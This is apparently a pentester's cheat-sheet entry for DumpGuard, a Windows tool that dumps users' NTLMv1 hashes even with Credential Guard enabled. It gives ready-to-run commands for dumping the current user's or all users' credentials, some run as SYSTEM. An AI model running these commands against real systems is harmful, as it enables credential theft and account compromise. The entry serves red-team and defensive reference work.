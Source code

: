 # dumpguard
#plateform/windows  #target/local   #cat/CREDENTIAL-ACCESS/CREDS_RECOVER

## _desc
```
DumpGuard is a credential dumping tool that can extract the NTLMv1 hashes (hashcat -m 5500) of users on modern Windows systems. The tool relies on the Remote Credential Guard protocol, and allows credential dumping even when Credential Guard is enabled on the local host
```

## _repo
```
https://github.com/bytewreck/DumpGuard
```

## _doc
```
https://specterops.io/blog/2025/10/23/catching-credential-guard-off-guard/
```

## _install
```
```

## dump self using remote credential guard
```powershell
DumpGuard.exe /mode:self /domain:<domain_fqdn> /username:<login>$ /password:"<password>"
```

## dump all using remote credential guard (NT SYSTEM)
```powershell
DumpGuard.exe /mode:all /domain:<domain_fqdn> /username:<login>$ /password:"<password>"
```

## dump all using MSV1 auth package (NT SYSTEM)
```powershell
DumpGuard.exe /mode:all
```